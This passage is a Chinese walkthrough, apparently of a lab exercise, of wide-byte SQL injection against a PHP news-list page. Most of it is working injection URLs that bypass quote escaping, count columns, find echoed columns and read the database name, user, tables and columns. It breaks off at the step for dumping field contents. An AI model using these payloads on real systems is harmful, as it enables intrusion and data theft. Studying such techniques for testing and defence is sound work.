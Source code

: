 ![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757403047897-a117565e-fa78-4d30-bf1e-547c2abd9308.png)

加上单引号、构造恒真恒假条件等等，页面均没有变化，怀疑常用的注入字符被后端转义了。考虑构造输入绕过转义，把单引号重新释放出来：

```plain
http://124.70.71.251:45378/new_list.php?id=1%df' and 1=2--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757403745429-0a80af8b-0de0-4f62-8df5-d34d9b288784.png)

页面没有正常返回，确实存在宽字节注入。用`order by`探测字段个数：

```plain
http://124.70.71.251:45378/new_list.php?id=1%df' order by 5--+
```

发现有5个字段。使用`union select`探测回显哪些列：

```plain
http://124.70.71.251:45378/new_list.php?id=1%df' and 1=2 union select 1,2,3,4,5--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757403975380-aff6dc3f-fbbf-4184-bfbb-c79ceba640d8.png)

可以看到，第3、5列被回显。开始查询数据库：

```plain
http://124.70.71.251:45378/new_list.php?id=1%df' and 1=2 union select 1,2,database(),4,user()--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757404175370-c0c20301-6b06-438c-a736-398d792bd721.png)

查询当前数据库的表：

```plain
http://124.70.71.251:45378/new_list.php?id=1%df' and 1=2 union select 1,2,(select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()),4,5--+
```

> 这里用了`where TABLE_SCHEMA=database()`还是因为最开始提到的常见注入字符被转义的问题。当然也可以直接把数据库库名转为十六进制<font style="color:rgb(77, 77, 77);">。</font>
>

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757404483905-af3f583d-828c-47da-87b2-41520385fbc0.png)

查询对应的字段：

```plain
http://124.70.71.251:45378/new_list.php?id=1%df' and 1=2 union select 1,2,(select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_SCHEMA=0x6d6f7a68655f64697363757a5f73746f726d67726f7570 and TABLE_NAME=0x73746f726d67726f75705f6d656d626572),4,5--+
```

> 这里转换成十六进制时，直接转换库名、表名即可，不用带上引号。
>

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757405057677-a3bcfa6a-81ae-4eeb-8124-03702fb1d5ee.png)

查询字段对应的具体内容：
